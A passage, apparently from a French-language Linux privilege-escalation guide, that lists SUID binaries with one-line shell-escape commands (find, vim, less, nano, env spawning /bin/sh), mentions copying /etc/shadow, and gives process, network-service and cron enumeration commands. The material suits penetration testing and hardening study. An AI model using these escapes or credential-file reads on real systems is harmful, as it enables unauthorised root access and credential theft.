 #### **Binaires SUID couramment exploitables**
```bash
# Binaires à surveiller particulièrement
/usr/bin/find                 # find . -exec /bin/sh \; -quit
/usr/bin/vim                  # :!/bin/sh
/usr/bin/more                 # !/bin/sh  
/usr/bin/less                 # !/bin/sh
/usr/bin/nano                 # ^R^X puis reset; sh 1>&0 2>&0
/usr/bin/cp                   # Copier /etc/shadow
/bin/bash                     # Shell direct !
/usr/bin/env                  # env /bin/sh
```

### **Services et processus**

#### **Processus en cours d'exécution**
```bash
# Tous les processus avec détails
ps aux
ps -ef

# Processus root intéressants
ps aux | grep "^root"

# Processus par utilisateur
ps aux | grep alice

# Arbre des processus
pstree -p
```

#### **Services réseau locaux**
```bash
# Ports ouverts (services locaux)
netstat -tulpn
ss -tulpn

# Connexions établies
netstat -an
ss -an

# Services écoutant seulement en local (127.0.0.1)
netstat -tulpn | grep 127.0.0.1
```

### **Tâches planifiées**

#### **Cron jobs**
```bash
# Crontab de l'utilisateur actuel
crontab -l

# Crontab système
cat /etc/crontab
ls -la /etc/cron.*
ls -la /var/spool/cron/

# Scripts exécutés par cron
find /etc/cron* -type f -perm -002 2>/dev/null
```
